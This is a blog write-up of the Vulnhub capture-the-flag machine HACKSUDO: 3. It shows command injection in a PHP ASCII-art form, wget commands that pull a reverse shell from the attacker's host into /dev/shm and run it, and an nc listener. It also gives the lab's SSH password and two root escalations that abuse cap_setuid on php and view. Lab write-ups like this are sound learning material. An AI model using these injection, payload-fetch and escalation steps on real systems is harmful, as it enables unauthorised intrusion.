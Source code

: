 ```yaml
---
layout: post
title:  "Vulnhub: HACKSUDO: 3"
date:   2021-04-15 22:00:00 +1100
category: hacking
---
```


## HACKSUDO: 3
This is [HACKSUDO: 3](https://www.vulnhub.com/entry/hacksudo-3,671/) from Vulnhub. It says:

>This box should be easy . This machine was created for the InfoSec Prep Discord Server (https://discord.gg/tsEQqDJh), and  
>Find the user.txt and root.txt flag submit it to the mybox channel on Discord and get chance to get hacksudo machine hacking course free 

I don't normally post these anywhere but hey, maybe I will this time.

## Ports
LOL. The first time I scanned this I *only* had a web port (HTTP on 80). After I completed it I scanned it again and SSH was open. Whaaaaaat? I don't think I opened it; maybe I was too quick on the scan. Whatever, we start with web.

## HTTP/80
The website has a few things on it; it mostly presents as a copy of a github project but some enumeration reveals javascript files related to games and a few PHP files including *info.php*, *login.php* and *generator.php*. We don't have any credentials so I ignore login.php; I run a bunch of *feroxbuster* scans but I don't find anything interesting.

## generator.php
This is a page that allows you to enter a name, which it then renders in ASCII art. Neat. It is also command injectable; eg:

``
name && id
``

Which produces:

>'name' as ASCII art, and  
uid=33(www-data) gid=33(www-data) groups=33(www-data)

I try a few one-liner reverse shells but I can't get one to fire. I try using echo to write a file on the webserver; the file gets created but it's empty. I try with printf; same thing. Next I try using curl and wget to retrieve a shell from my box, eg (this is from Burp Suite):

``
ip=id && wget http://192.168.1.192:9090/cmd.php -O /var/www/html/cmd.php&submit=submit
``

This will create the file, but it's empty, so no bueno. I try again but placing the file in the /tmp directory; still empty. I try /dev/shm - success! The sequence is:

Upload the file (this was just a bash reverse shell):

``
ip=id && wget http://192.168.1.192:9090/shell.sh -O /dev/shm/shell.sh 
``

Now make it executable:

``
ip=id && chmod  x /dev/shm/shell.sh&submit=submit
``

And now call it:

``
ip=id && /dev/shm/shell.sh&submit=submit
``

And in my listener:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo3]
└─# nc -nvlp 1234                                                                       
listening on [any] 1234 ...
connect to [192.168.1.192] from (UNKNOWN) [192.168.1.201] 40924
bash: cannot set terminal process group (735): Inappropriate ioctl for device
bash: no job control in this shell
www-data@hacksudo:/var/www/html$
{% endhighlight %}

## hacksudo
I have a look in the webserver; turns out my *feroxbuster* searches found most of the content. I check *login.php* and find this line:

>you have logged in successfully , 0x Open The Next Door key is  =   GMYTGMBTGAZTAMZRGIYDGMJTGAZTAMZQGMZDEMBTGEZTAMZQGMYDGMY=  

But even now I've rooted the box I'm still not sure what that means.

One level up in /var/www, we find this:

{% highlight shell %}
www-data@hacksudo:/var/www$ ls -alsh
ls -alsh
total 16K
4.0K drwxr-xr-x  3 www-data www-data 4.0K Apr 15 12:13 .
4.0K drwxr-xr-x 14 root     root     4.0K Mar 19 07:57 ..
   0 -rw-r--r--  1 www-data www-data    0 Apr 15 12:13 .wget-hsts
4.0K -rwxrwxr--  1 www-data www-data  176 Mar 20 11:31 hacksudo
4.0K drwxr-xr-x  6 www-data www-data 4.0K Apr 15 12:18 html
www-data@hacksudo:/var/www$ file hacksudo
file hacksudo
hacksudo: ASCII text
{% endhighlight %}

I won't reproduce it here, but we have a ROT13 encoded file, which contains SSH credentials for hacksudo (the password is hashed, but John deals with it).

But, we had no open SSH port? What about internally? Yes. I couldn't get it to work with the normal commands but using IPv6 it was ok, not sure if that was intentional or not.

{% highlight shell %}
www-data@hacksudo:/var/www$ ssh -6 hacksudo@localhost
ssh -6 hacksudo@localhost
Could not create directory '/var/www/.ssh'.
The authenticity of host 'localhost (::1)' can't be established.
ECDSA key fingerprint is SHA256:DQGgjBAkTgrLHL8x9i2t/g6vbx0ASKgtWdGRHLbrXrU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
hacksudo@localhost's password: vishal

Welcome to Ubuntu 20.10 (GNU/Linux 5.8.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Apr 15 12:24:32 PM UTC 2021

  System load:  0.0               Processes:               120
  Usage of /:   94.9% of 6.82GB   Users logged in:         0
  Memory usage: 41%               IPv4 address for enp0s3: 192.168.1.201
  Swap usage:   0%

  => / is using 94.9% of 6.82GB

 * Introducing self-healing high availability clusters in MicroK8s.
   Simple, hardened, Kubernetes for production, from RaspberryPi to DC.

     https://microk8s.io/high-availability

45 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Mar 24 09:02:25 2021 from 192.168.0.7
hacksudo@hacksudo:~$ sudo -l
sudo -l
[sudo] password for hacksudo: vishal

Sorry, user hacksudo may not run sudo on hacksudo.
{% endhighlight %}

## root
There are multiple ways of escalating to root on this box and I know that because after I'd done this, I watched a YouTube video of someone else doing the box and he used the LXD privesc which was much more complicated than what I did.

Linpeas points this out:

{% highlight shell %}
Files with capabilities:
/home/hacksudo/locker/php cap_setuid=ep
/home/hacksudo/locker/php cap_setuid=ep is writable
{% endhighlight %}

And [GTFOBins](https://gtfobins.github.io/gtfobins/php/#capabilities) lights the way:

{% highlight shell %}
hacksudo@hacksudo:~/locker$ CMD="/bin/sh"
CMD="/bin/sh"
hacksudo@hacksudo:~/locker$ ./php -r "posix_setuid(0); system('$CMD');"
./php -r "posix_setuid(0); system('$CMD');"
id;hostname;date
uid=0(root) gid=1000(hacksudo) groups=1000(hacksudo),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
hacksudo
Thu Apr 15 12:32:37 PM UTC 2021
cat root.txt
7db64dc8077ff8f969938bc48bd0a9ab
cat proof.txt
you successfully rooted hacksudo3 box !!!
{% endhighlight %}

Cool.

Since I knew there was at least one other method for getting root, I went to look to see if I could find *another* one. I noticed linpeas pointed out that *view* also had the cap_setuid capability. Would that work - we have a method at [GTFObins](https://gtfobins.github.io/gtfobins/view/#capabilities)?

Yes, it does work - with a slight modification. Note; there are several different *view* binaries on the box. We want this one:

>/home/hacksudo/view cap_setuid=ep

Trying it directly (more or less) from GTFObins:

``
hacksudo@hacksudo:~$ ./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
``

provokes this error:

>reset: unknown terminal type unknown

In order to fix this, I changed a few things. Firstly, SSH with *-t* (this may not have been necessary):

``
www-data@hacksudo:/var/www/html$ ssh -6 -t hacksudo@localhost
``

Next, check (and then set) TERM:

{% highlight shell %}
hacksudo@hacksudo:~$ echo $TERM
echo $TERM
dumb
hacksudo@hacksudo:~$ export TERM=xterm-256color
export TERM=xterm-256color
hacksudo@hacksudo:~$ echo $TERM
echo $TERM
xterm-256color
{% endhighlight %}

And finally:

``
hacksudo@hacksudo:~$ ./view -c ':python3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
``

Boom.

{% highlight shell %}
# id;hostname;date
id;hostname;date
uid=0(root) gid=1000(hacksudo) groups=1000(hacksudo),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
hacksudo
Thu Apr 15 01:21:40 PM UTC 2021
{% endhighlight %}

So; two ways to root and both different to the video I watched.
